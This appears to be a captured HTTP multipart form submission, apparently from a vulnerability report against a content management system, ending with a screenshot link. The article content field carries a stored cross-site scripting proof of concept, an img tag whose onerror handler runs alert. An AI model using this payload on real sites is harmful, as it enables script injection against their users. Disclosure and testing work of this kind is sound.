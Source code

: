 ```
0
------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[author]"

admin
------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[source]"


------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[listorder]"

0
------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="views"

1
------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[alias]"


------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[id]"

1
------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="cid"

1
------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[title]"

2222222222
------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[tags]"


------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[intro]"

12222
------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[seo_title]"


------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[seo_keywords]"


------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[flags]"

0
------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="data_info[content]"

<p>3333333<img src=1 onerror=alert(/xss/)>33333</p>
------WebKitFormBoundaryq8YkI3rYLBOnHPic--
```
<img width="1212" alt="image" src="https://github.com/user-attachments/assets/16c25462-d3d6-427b-9aac-facd52e04e80" />

